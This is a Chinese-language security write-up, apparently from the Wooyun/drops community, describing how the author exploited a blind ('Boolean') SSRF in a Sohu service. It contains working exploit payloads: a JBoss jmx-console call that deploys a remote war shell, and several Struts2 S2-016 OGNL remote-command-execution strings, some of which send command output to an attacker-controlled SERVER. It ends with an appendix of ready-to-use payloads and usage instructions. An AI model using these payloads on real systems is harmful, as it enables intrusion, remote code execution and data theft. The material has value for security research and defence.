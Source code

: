 # Bool型SSRF的思考与实践

0x00 Bool型SSRF
=====

什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称. Bool型SSRF:简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候，返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

0x01 SSRF利用的基本思路
=====

Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想,以前没有接触过SSRF,这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

```
内网探测->应用识别->攻击Payload->Payload Result

``````
内网探测: 内网主机信息收集
应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
Payload Result: 返回相应Payload的执行信息

```

0x02两者之间的区别
=====

BOOL型SSRF与一般的SSRF的区别在步骤二应用识别,步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多,比如Banner信息,HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回. 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息,所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

0x03 Bool型SSRF利用方法
=====

### 1.应用识别

{指纹1 + 指纹2 + 黑指纹}, 这里以JBOSS为例:`{ /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }`指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表:`jmx-console.host(A) invoker.host(B) black.host(C)`.

`Host = (A∩B) –(A∩B∩C)`即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

### 2.攻击Payload

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBOSS Payload:

```
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war

```

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

```
/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

```

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里

### 3.Payload Result

获取Payload Result是十分有必要的,这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法。

0x04 Struts2在Bool型SSRF中的利用
=====

下面是S2-016的POC:

```
/action?action:%25{3*4}
/action?action?redirect:%25{3*4}

```

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转,通过URL跳转来验证S2-016漏洞.

![enter image description here](http://drops.javaweb.org/uploads/images/529745b5b154a78b80af324bd28bcf1d94b157d7.jpg)

当然也可以通过“`?redirect:http://www.baidu.com`”来验证. 那么我们是否可以通过”`?redirect:http://SERVER/%25{3*4}`” 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.

![enter image description here](http://drops.javaweb.org/uploads/images/854122044ee4df525eaa1f791561f6e791eb8fd2.jpg)

下面我们尝试S2-016的命令执行POC,执行结果如下:

```
?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}

```

![enter image description here](http://drops.javaweb.org/uploads/images/3639999375192a0045ede6c66e6d3cdf4e2a080f.jpg)

特此说明一下,这里返回`java.lang.ProcessImpl@xxxxxx`表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

```
?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}

```

![enter image description here](http://drops.javaweb.org/uploads/images/ce1a4299240e824a1c627ed7fb1e5a248d760e44.jpg)

由服务器端Access日志可以看出,命令执行成功

![enter image description here](http://drops.javaweb.org/uploads/images/b8825748144e57383ce23590a1f19febce55e528.jpg)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 带回显的POC:

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

```

![enter image description here](http://drops.javaweb.org/uploads/images/ab2b7207e685721219a531a722712c5d7aa8eeda.jpg)

将命令执行结果Redirect到远程:

![enter image description here](http://drops.javaweb.org/uploads/images/250e2594300883a838b5105a9ab46bb703647850.jpg)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![enter image description here](http://drops.javaweb.org/uploads/images/81dcf298f58e3b5ac717dcf3775f1cfcc8fc8694.jpg)

远程服务器日志:

![enter image description here](http://drops.javaweb.org/uploads/images/961ebbb8dd0d18c9c926b47b0c2dde2f6d36f638.jpg)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

0x05 Other(想到什么写什么)
=====

Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行”`http://wooyun.org/bugs/wooyun-2015-0129588`, 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.

**附录**

使用方式: 将SERVER替换为你的Web服务地址

POC-S2-016.SSRF版 高亮：

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```

POC-S2-016命令回显集成SSRF版 高亮：

```
redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23t%3d%23d.readLine(),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.setContentType(%27text/html%27),%23matt.getWriter().println(%23e),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

```